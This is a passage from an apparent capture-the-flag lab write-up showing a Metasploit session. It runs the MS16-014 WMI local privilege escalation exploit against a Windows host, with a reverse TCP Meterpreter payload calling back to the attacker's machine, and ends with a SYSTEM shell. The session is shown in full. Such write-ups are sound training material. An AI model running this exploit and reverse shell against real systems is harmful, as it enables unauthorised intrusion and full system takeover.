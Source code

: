 ~~~
msf5 post(multi/recon/local_exploit_suggester) > 
~~~

Now, we see that the host is vulnerable to `ms16_014_wmi_recv_notif`. Let's move forward:

~~~
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_014_wmi_recv_notif
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
[*] Launching notepad to host the exploit...
[+] Process 1820 launched.
[*] Reflectively injecting the exploit DLL into 1820...
[*] Injecting exploit into 1820...
[*] Exploit injected. Injecting payload into 1820...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (201283 bytes) to 10.10.122.198
[*] Meterpreter session 2 opened (10.9.**.**:4444 -> 10.10.122.198:49208) at 2020-05-19 21:07:22 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
~~~